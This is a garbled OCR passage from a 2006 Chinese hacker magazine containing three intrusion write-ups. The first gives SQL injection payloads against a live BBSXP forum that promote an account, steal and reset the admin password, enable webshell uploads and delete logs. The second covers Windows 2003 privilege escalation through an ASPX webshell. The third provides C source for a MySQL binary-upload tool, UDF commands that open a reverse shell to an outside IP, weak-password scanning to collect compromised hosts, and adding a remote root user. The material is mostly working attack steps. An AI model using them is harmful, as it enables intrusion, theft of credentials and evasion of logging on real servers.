

虽然上面说有错误，其实已经成功提升用户名为llikz的账号为社区区长了，不信，你可以看看下面是什么，如图19所示。


这你可相信了吧？是不是很兴奋啊？

##### 4. 获取后台管理员密码

获取密码后我们来看看能不能上传木马——论坛关闭了上传功能！不过关闭了我们可以给它打开嘛，提交的moveid改为moveid=444507 ;update [clubconfig] set setup='FSO';--，这样就可以使用FSO方式上传文件了，你一定要问人家不允许上传ASP文件怎么办？提交moveid=444507;update [clubconfig] set UpFileGenre='zip|gif|rar|asa';--就不能上传asa文件了吗？

由于许多不可预料的情况发生，我选择了个最有效的方法：更新后台管理密码，这可不是小事情啊，修改了后台密码，管理员都进不去了。先得到管理员的后台密码，渗透后再修改回去就OK了，提交moveid改为

```
moveid=444507;update [user] set usermail=(select adminpassword from [clubconfig]) where username='llikz';--
```

然后到自己账号的个人资料里看看自己的邮箱变成什么了，如图20所示。


先记下来，更新后台密码：

```
movieid=444507;update [clubconfig] set adminpassword=96B79218965DB72C92A549DD5A330112;--
```

其中的一大串密码是111111的加密，进入后台登录，如图21所示。


看，我已经成功进入了官方论坛的后台，真是太“激动”了！

##### 5. 尝试上传WebShell

首先打开上传功能，上传一个改名的ASP文件打算在后台备份成ASP木马，这里顺便告诉大家，不能直接备份成.asp，程序有限制，如果备份成.asa的也不能执行，你可以备份成 .asp，只要大写就可以了。可惜在官方没有那么顺利，失败了，如图22所示。

### FIRST EXPLOIT

> 栏目编辑 > wtj wtj@hacker.com.cn



我晕，这是怎么回事？难道不支持FSO，果真如此！如图23所示。



有的人不禁要问了，既然不支持FSO那为什么我们上传照片可以上传成功呢？其实利用的是ADODB.stream，不信你看inc/upfile.asp中的如下代码

```
set Form = Server.CreateObject("Scripting.Dictionary")
set File = Server.CreateObject("Scripting.Dictionary")
set tStream = Server.CreateObject("adodb.stream")
set oUpFileStream = Server.CreateObject("adodb.stream")
```

哎，郁闷！换个方法试一下：在后台社区基本设置中添加一个允许上传的文件类型asa，由于没有找到论坛中上传文件的地方，本地写如下表单

```
<form enctype=multipart/form-data method=post
action=http://www.ourtygame.com/bbs/upfile.asp?menu=up>
<table cellpadding=0 cellspacing=0 width=100%
class=a4>
<tr><td>
<td><input type=file style=FONT-SIZE:9pt name=file
size=60><input style=FONT-SIZE:9pt type="submit" value="上传" name=Submit></td></tr></table></from>
```

登录论坛后后在同一个IE窗口中打开本地文件，这样能发送我们的Cookie信息，本地选个asa文件上传，上传成功后看看我们的Shell怎么样？如图24所示。

狂晕！这个目录不允许执行，再上传个Shtml的文件，文件内容为<!--#include file="../../conn.asp"-->，看看连接数据库的账号密码，可惜天不遂人愿，



情况依然糟糕，如图25所示。


没办法了！设置得也太BT了，官方就是官方，强！其他的站，早就应该搞定走人了，失败，还是空了再继续搞吧！

##### 6. 清除日志记录

刚要定人呢，发现有个操作记录，打开看看，如图26所示。



可把我给“吓死”了！自己的操作被曝光了，怕怕！从这点可以看到BBSXP对操作进行的记录是多么的强大，所以建议大家在入侵完一定要清理掉里面的日志，清除方法很简单，提交：

```
moveid=444507;delete from [log] where username=
llikz';--
```

黑客手册 2006 精华奉献本 下册

www.hacker.com.cn

### FIRST EXPLOIT

> 栏目编辑：wf) wtf@hacker.com.cn

好了，不敢对官方进行修改，关闭上传功能，清除日志，根据刚才得到的后台管理密码，还原了他的密码，还是利用原来的语句：

```
moveid=444507;update [clubconfig] set adminpassword='原来的密码';--
```

还原自己账号原来的权限：

```
moveid=444507;update [user] set membercode=1 where username=' llikz';--
```

OK，可以闪人啦！

##### 漏洞修补与总结

以上的语句必须要进行Unicode编码后提交才会成功，不然回返回如图27所示的信息。

以上在最苛刻的条件下对渗透BBSXP SQL版本进行了详尽的说明，其实利用MSSQL存储扩展，我们已经获得了最高权限，不过已经不在本文的讨论范围之内了，下次有机会再说！

其实这个漏洞是很容易修补的，对于moveid的注入，修改如下代码：

```
case "move"
moveid=int(Request("moveid"))
```

```
if moveid="" then error("<li>您没有选择要将主题移动哪个论坛")
if Conn.Execute("Select pass From [bbsconfig] where id='"&moveid&"'")(0)=4 then error("<li>目标论坛为授权发帖状态")
conn.execute("update [forum] set forumid='"&moveid&"' ,topictic=0,goodtopic=0,locktopic=0 where id='"&id&"'")
succtitle="移动主题成功"
```

对于其它两个变量的注入，直接过滤字符不容易，因为不使用 ' ' 的注入本身很灵活，可以借鉴官方的方法修补漏洞。对于order变量，加入if Len(order)>8 then error("<li>非法操作")即可，对于blog.asp中的注入，将id=HTMLEncode(Request("id"))修改为id=int(Request("id"))即可。


网上BBSXP SQL版的论坛有多少我就不说了，大家使劲搜吧！嘿嘿！

WTF： 相信大家都遇到过这样的情况 千辛万苦拿到某站的WebShell，却是Windows 2003系统，而且不论是CMD还是WSCRPT组件都无法执行系统命令，无法提升权限，甚至连修改主页的权限都没有！ 只能眼睁睁的等着WebShell被拿掉，心痛……于是在不断的尝试后，本文作者写下此文，针对这样的情况提出了一点见解，希望能为各位同好解惑！

适合读者： 入侵爱好者、网管
前置知识： 无

#### 绝处逢生
##### ——Windows 2003下的权限提升

文/图 觉醒 杀手

前几天渗透了某大型网站，"兴奋"中。拿到WebShell后，第一个念头就是提升权限，把我亲爱的后门挂到系统里。

熟练地打开CMD，输入 NET USER，回显却如图1所示。

不是好兆头，接着在WSCRIPT组件前打钩，再次执行NET USER，提示倒是换了，但是结果一样。接着我想到了上传CMD.EXE，但是Windows 2003的上传在默认时是有限制的，不能大于200KB，于是我上传了经典的Serv-U本地溢出程序，使用在Windows 2000下没有禁用WSCRIPT时的无敌调用提权大法，如图2所示。



```
C:\Program Files\>
```


其实就是在调用CMD的地方写上本地溢出程序的路径及参数，一般在没有禁止WSCRIPT组件时，此法的成功率很高。但是结果依然是"禁止访问"，看来Windows 2003在默认情况下，安全性比Windows 2000默认时要强许多。失望之余，想到干脆去首页挂个马吧，最近正在玩PcShare，嘿嘿。跑到首页，加入我的木马代码，点保存，"没有权限"，倒！太BT了吧？连修改首页的权限都没？管理员一定是把IIS用户降低到了GUEST组，或者给IIS目录单独设置了一个GUEST组的用户，并去掉了修改文件的权限。上帝太不公平了，怎么说都是我辛辛苦苦搞来的Shell啊，现在一点用都没有！

没办法，看看服务器里有啥好东西吧。翻来翻去，忽然眼前一亮，在某个目录里发现了congif.aspx文件，写到这里各位以为偶是要使用SA账号，通过SQLROOTKIT执行系统命令吧？错，我看过了，账号不是SA权限的，是

SHELL路径: || d:\wwwroot\a.exe 43958 "net user"  WScript.Shell


PU权限，什么都不能做，而且也不属于本文的介绍范围。我注意的是“ASPX”这个后缀，在默认安装情况下，IIS 6.0是支持.net的，也就是ASPX文件，但是在IIS 6.0里，ASP和ASPX两个扩展使用的却是两个不同的用户角色，ASP使用的是IUSER用户，管理员一般都比较注意这个账号，害怕被提升权限，所以把权限都降低到了GUEST，所以在ASP的WebShell里什么也不能做了。但是网管往往忽略了ASPX！ 由于.net使用的系统账号是ASPNET，而在默认情况下，这个账号是属于USER组的，这样我们上传一个.net的后门上去，会以USER组的用户ASPNET执行命令，权限会有很大的提高，就可以提权了！

说做就做，立即上传了一个ASPX的后门上去，打开CMD模块执行net user，哇哈哈，果然不出我所料，终于可以执行CMD了！ 来看看权限，输入“net localgroup guests”，回显如图3所示。

看到了吧？ 刚才我们在AspWebShell中使用的账号是IUSER_WEBSITE，属于GUESTS组，难怪什么权限都没有呢。再来看一下USERS组，如图4所示。

ASP-NET就是现在我们的AspxShell使用的账号，权限是USERS，比Guest大好多，嘿嘿！

其实这并不算是什么漏洞，只是由于管理员粗心大意造成的隐患而已。算是提升权限的一个思路吧。如果管理员把ASP-NET也降低权限，或者删除ASPX这个扩展，本文的方法就不管用了，不过这样的管理员到目前为止我还没遇到过。总之，整体安全才是最重要的。不要放过每一个细节。

```
[CMD.NET for WebAdmin]
以ASP.NET帐户权限执行命令（注
Command: 
net localgroup guests
别名    guests
注释    按默认值，来宾跟用户组成员
成员
-------------------------------------------------------------------------------
Guest
IUSR_WEBSITE
命令成功完成。
```

```
[CMD.NET for WebAdmin]
以ASP.NET帐户权限执行命令（注意
Command: 
net localgroup users
别名    users
注释    用户无法进行有意或无意的改动
成员
-------------------------------------------------------------------------------
ASPNET
cnlogs
NT AUTHORITY\Authenticated Us
NT AUTHORITY\INTERACTIVE
SQLDebugger
x-lqzq
命令成功完成。
```

图 3

图 4

WTF：近期发现了利用MySQL直接拿Shell的技术。相比之下，对于MSSQL和Oracle的数据库，这样直接拿Shell的方式反而很少有人提出来，希望牛人们也能尽快发掘。另外在漏洞攻防中还有一篇与此对照的文章，是通过MySQL直接拿system权限的。两篇文章大家可以结合着看看，希望能让大家在“攻击”MySQL系统的时候拥有足够的底气。

适合读者： 系统漏洞研究者，入侵爱好者，网管
前置知识： C代码基础，MYSQL基础



MySQL数据库是一种非常广泛的数据库，其默认开放端口是3306，在Linux、UNIX系统中主要是Apache+php+MySQL的配制方式，在Microsoft Windows系列中主要是php+MySQL的配制方式。本文主要介绍拿到Root口令后在Windows 2000、Windows XP和Windows 2003系统中如何来提升为系统管理员，并介绍几种加固肉鸡的方法。文章有不当之处请高手多多指教。

近来在实战中经过反复实验总结了自己的一套方法，也得到了一些肉鸡，2CPU的，4CPU的2GB内存的，4GB内存的皆有，好爽啊，哈哈。现在整理一下思路共享出来与广大黑迷分享(好东西要共同分享嘛：哈哈)，同时希望管理员把root密码设置得更安全些。

以前也玩过MySQL，不过没仔细分析，近来研究主要是因为看了Mix的一篇文章，高手们可能一看就会，但是广大菜鸟朋友们可能就有些晕了。接下来根据不同情况，原理加实例给大家一一讲解，不要嫌偶罗嗦啊！

#### 命令行下的反向连接

反向连接Shell要满足两个条件。
第一，可以通过MySQL上传二进制文件，这里就借用一下Mix早编好的一个具有反向连接功能的Mix.dll文件，偷懒，当然你也可以编写别的功能的dll文件。
第二，可以通过注册UDF DLL中自写的Function而执行任意命令。

上传二进制文件的原理如下：

```
定义二进制数据（十六进制表示）
set @a = concat('',0x4d5a900003000000);//定义变量a,并
通过函数concat()给它赋值
set @a = concat(@a,0x04000000fff0000008000000);//继
续赋值
..............// 同上继续赋值，直到把要上传的二进制文件内容全部付给变量a
create table Mix(data LONGBLOB);// 建立数据表Mix,
```

文/图 徐勇 聂磊


### FIRST EXPLOIT

仅一个字段 data 以存放二进制数据

```sql
insert into Mix values(""),update Mix set data = @a;
// 将二进制数据存放到表中
select data from Mix into DUMPFILE 'C:\Mix.dll';
// 把表中内容导出到远程机器c:\Mix.dll中
```

CONCAT(str1,str2,...) 返回来自于参数连接的字符串。如果任何参数是NULL，返回NULL。可以有超过两个的参数。一个数字参数被变换为等价的字符串形式。在导出文件时如果含有字符'\'、'/'、'"'、'.'、'|'时在前面要加上字符'\'

虽然上面介绍了方法，但是我们不可能打开十六进制编辑器，一个ASCII码一个ASCII码的手工输进去，为此专门利用VC编了一个小程序方便大家使用，此程序二进制，ASCII文件均可上传，经实验几百KB的文件是可以上传上去的，如果文件大了可能会超出变量的赋值范围而报错，其实经常用到的后门程序也就几十KB，这已足已，如真需要上传大的文件可以成功后利用FTP上传。

以下是程序Mysql_upfile.exe源代码

```c
#include<stdio.h>
#include<string.h>
#include<stdlib.h>
unsigned long filelength(char *f1);//把输入的文件长度，由字符串转换成十进制
int main(int argc, char *argv[])
{FILE *fp;
char ch;
unsigned int i=1;
if(argc !=4)
{ printf("\n# MYSQL_upfile written by younger QQ:15387788 \n");
printf("# MYSQL_upfile.exe <LocalFile> <FileLength><RemoteFile> >younger.txt\n",argv[0]);
printf("# LocalFile    // 本地要上传的文件名！ \n");
printf("# Filelength   // 要上传文件十进制长度！\n");
printf("# RemoteFile   // 输出到远程机器的的文件名！ \n");
printf("# >younger.txt //输出内容重定向到younger.txt中！ \n");
printf("# 1. MYSQL_upfile.exe c:\\nc.exe 40062 c:\\nc.exe >younger.txt\n");
printf("# 2. c:>MYSQL -h ip -uroot -p // 登录远程MYSQL数据库 \n");
printf("# 3. MYSQL>\\. younger.txt //执行脚本\n");
printf("# 献给几位好友：Lm,wtf,icyfox,llikz,xiaodao,hunshimowang......\n");
return 0; }
if((fp=fopen(argv[1],"rb"))==NULL) // 打开本地上传的文件！
{printf("Cannot open file !");
exit(1); }
ch=fgetc(fp);
printf("set @a = concat('0x');");
while (i<=filelength(argv[2]) && i>0) //while语句中为核心代码
{ if ( ch>=0 && ch<=15 )
printf("0%x",ch);
else printf("%x",(ch+256)%256);
ch=fgetc(fp);
i++;
}
fclose(fp);
printf("\n");
printf("use MYSQL;\n");
printf("create table younger(data LONGBLOB);\n");
printf("insert into younger values(\"\");\n");
printf("update younger set data = @a;\n");
printf("select data from younger into DUMPFILE '%s';\n",argv[3]);
printf("drop table younger;");
return 0;}
unsigned long filelength(char *f1)
{int i;
unsigned long result;
int j=1;
result=0;
for(i=strlen(f1);i>=1;i--)
{ result+=(f1[i-1]-48)*j;
j*=10; }
return result;}
```

While 语句中循环部分为此程序的核心代码，如读文本文件时可以利用EOF来判断是否文件结束，但应用到二进制文件时则不成，所以利用变量i来控制循环长度。因一个字符占8位，如果ASCII在0~15即十六进制的0~F当中时，用编辑器打开前面会多一个'0'，所以利用语句printf("0%x",ch)输出。在读取二进制文件长度的字符时发现有的ASCII读出来是负数，经分析加上256后与编辑器中看到的ASCII值相同，所以利用语句printf("%x",(ch+256)%256)来输出。

界面如图1 所示。


图1

此程序主要是生成能让MySQL执行的上传脚本。MYSQL_upfile mix.dll 20480 c:\mix.dll >younger.txt
//mix.dll是mix早编好的具有反向连接功能的dll文件，偷个懒拿来用用。可以利用dir命令或查看文件属性来确定此文件的字节数，c:\mix.dll为传到远程机器上的位置（为了增加隐蔽性要传到别的目录下，并起一个类似系统调用的文件名）。不要忘了加'\'最后再加上>younger.txt我们就把所有内容定向输出到younger.txt里面了。

先在自己机器上装一个MySQL（我装的是4.1.10-nt）。通过命令MySQL  [-h host]  [-u username]  [-p [password]] [dbname]登录远程MYSQL数据库，给大家来一段小插曲,如何得到弱口令的机器?装一个hscan1.2,在Parameter Setting那里设置一个大一点的IP范围(扫扫国外的不错),在Scan Modules Config那里只选择扫描check MySQL weak accounts,扫描的用户名和弱口令我们也可以自行修改conf目录下的MySQL_user.dic和MySQL_pass.dic文件.该休息了,找台肉鸡挂上去跑吧,等明天早上起来看看有没有收获。我的收获还算可以,有4台机器。如图2所示。



从MySQL Version来看,找版本越高的,后面带有nt字样的成功率会更高一些,再用h 202.142.*.* -uroot p 成功登录远程数据库后,可以利用命令status查看数据状态,如图3所示。


执行命令
F:\tools\lin\debug\yongger.txt
(注意“\”后有个“点”)出现如图4。我们已经把mix.dll文件成功的传到了远程的c:\mix.dll下。


准备工作都做好了,最关键的部分到了:如何来反向连接。利用如下语句创建函数:create function Mixconnect returns string soname 'c:\mix.dll';/*注意修改文件地址*/执行函数反向连接select Mixconnect('161.156.*.*','521');/*注意修改反连回来的IP地址和端口号*/\r\n可定义函数(UDF)是用一个像MYSQL的原生(内置)函数如ABS()和CONCAT()的新函数来扩展MYSQL的方法。AGGREGATE是MYSQL 3.23的一个新选项。一个AGGREGATE函数功能就像一个原生MYSQL GROUP函数,如SUM或COUNT()。CREATE FUNCTION在MYSQL.func系统表中保存函数名、类型和共享库名。你必须对MYSQL数据库有insert和delete权限以创建和抛弃函数。所有活跃的函数在每次服务器激活时被重新装载,除非你使用skip-grant-tables选项激活MYSQLd,在这种情况下,UDF初始化被跳过并且UDF是无法获得的(一个活跃函数是一个已经用CREATE FUNCTION装载并且没用DROP FUNCTION删除的函数)。

成功创建函数Mixconnect,以及反向连接成功。如执行create function Mixconnect returns string soname 'c:\mix.dll';语句报错则表明创建函数失败,以致无法取得Shell;希望哪位高手能解决此问题。还有一个问题就是执行完语句select Mixconnect('161.156.*.*','521');后,退出后重新连数据库时,会报错,以致无法再连接上。针对此种情况下文将介绍另一种方法,有可能得到系统权限。得到了Shell后如何加后门,欲知详情,请看下文……如图5,图6所示。


#### WebShell连接系统Shell

1. 如果你得到一个WebShell,可以通过查看c:\winnt\my.ini(Windows2003在c:\Windows\my.ini)的内容得到root的密码。上传一个phpspy.php上去,进入SQL语句执行功能。执行语句GRANT ALL PRIVILEGES ON *.* TO yongger@'%'IDENTIFIED BY '123456' WITH GRANT OPTION ;添加了一个远程root权限用户yongger,密码123456。这样就可以利用上面的命令行方法了。如图7所示。


2.也可以利用phpspy.php把mix.dll上传上去,再执行SQL语句
```sql
create function Mixconnect returns string soname 'c:\mix.dll';
select Mixconnect('61.156.*.*','521');
```

3.可修改并执行下Superhei的程序来进行反向连接,代码如下:

```
/******************************
** MYSQL function exp
** By SuperHei
******************************/
// 数据库设置
$host='localhost';
$user='root';
$pass='';
//dll路径
